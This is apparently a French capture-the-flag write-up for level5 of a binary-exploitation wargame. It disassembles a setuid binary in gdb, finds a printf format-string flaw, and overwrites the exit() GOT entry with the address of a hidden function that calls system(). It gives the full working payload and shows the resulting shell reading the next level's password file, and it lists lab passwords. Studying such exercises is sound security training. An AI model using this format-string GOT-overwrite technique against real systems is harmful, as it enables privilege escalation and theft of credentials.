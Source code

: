 # Level5

> login:password -> *`level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`*
```
:~$ su level5
Password:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
---

```
:~$ pwd
/home/user/level5
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level5
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level5` :

```
:~$ ./level5
(input) test
test

:~$ ./level5 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level5
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	    push   %ebp
   0x08048505 <+1>:	    mov    %esp,%ebp
   0x08048507 <+3>:	    and    $0xfffffff0,%esp
   0x0804850a <+6>:	    call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

fonction `n()` (+6)
n -> fonction `printf()` (+49)
pas de fonction `system()` ou autre moyen d'acceder au stdin, donc on va voir si on trouve d'autres fonctions utiles


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x08048380  printf@plt
(...)
0x08048390  _exit@plt
(...)
0x080483a0  fgets@plt
(...)
0x080483b0  system@plt
(...)
0x080483d0  exit@plt
(...)
0x080484a4  o
0x080484c2  n
0x08048504  main
(...)
```

Finalement on retrouve bien l'utilisation d'une fonction `system()`, mais egalement l'utilisation d'une fonction `o()` qui semble inexploitee

```
(gdb) disas o
Dump of assembler code for function o:
   (...)
   0x080484aa <+6>:	    movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

On determine du coup que la fonction `o()` pourra etre utilise pour atteindre le stdin, mais pour ce faire on va de nouveau exploiter `printf()`

```
:~$ python -c 'print " %x" * 4' | ./level5
 200 b7fd1ac0 b7ff37d0 25207825

:~$ python -c 'print "aaaa" + " %x" * 4' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

On decouvre que notre buffer est en 4e position. Apres la fonction `printf()` on trouve un appel de la fonction `exit()`, on va donc faire en sorte de remplacer l'adresse de cette derniere, par l'appel de la fonction `o()`

```
(gdb) info function exit
All defined functions:

Non-debugging symbols:
(...)
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838

(gdb) info function o
All defined functions:

Non-debugging symbols:
(...)
0x080484a4  o
(...)
```

On obtient ainsi les adresses desirees dans le GOT*:
- `exit()` : **0x8049838**
- `o()` : **0x080484a4**



>
>
>
A present qu'on a toutes les informations neccessaires, il est tant de preparer notre exploit:
- exit adresse dans le GOT: "\x38\x98\x04\x08" (4 bytes)
- 134513828 (adresse de `o()`) - 4 bytes (exit) = 134513824
A PRECISER PLUS !!!!!!!!!!!!!!!!!!!!!

>
>
>


```
:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5

:~$ cat /tmp/level5 - | ./level5
(...)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```



_Informations supplementaires_:
>*Global Offset Table, or GOT, is a section of a computer program's (executables and shared libraries) memory used to enable computer program code compiled as an ELF file to run correctly, independent of the memory address where the program's code or data is loaded at runtime.